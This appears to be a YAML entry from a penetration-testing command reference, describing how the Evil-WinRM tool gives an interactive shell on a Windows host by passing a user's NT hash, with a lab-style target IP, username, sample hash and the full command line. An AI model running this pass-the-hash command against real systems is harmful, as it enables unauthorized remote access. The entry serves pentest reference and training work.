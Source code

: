 ```yaml
---
description: |
  Evil-WinRM uses the Windows Management Instrumentation (WMI) to give you an interactive shell on the Windows host. Evil-WinRM supports passing the victim's NT hash for authorization.

  Command Reference:

  	Target IP: 10.10.10.1

  	Username: john

  	NT Hash: c23b2e293fa0d312de6f59fd6d58eae3


command: |
  evil-winrm -i 10.10.10.1 -u john -H c23b2e293fa0d312de6f59fd6d58eae3
items:
  - Target
  - Username
  - NT Hash
services:
  - WMI
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - Pass the Hash
references:
  - https://github.com/Hackplayers/evil-winrm
---
```

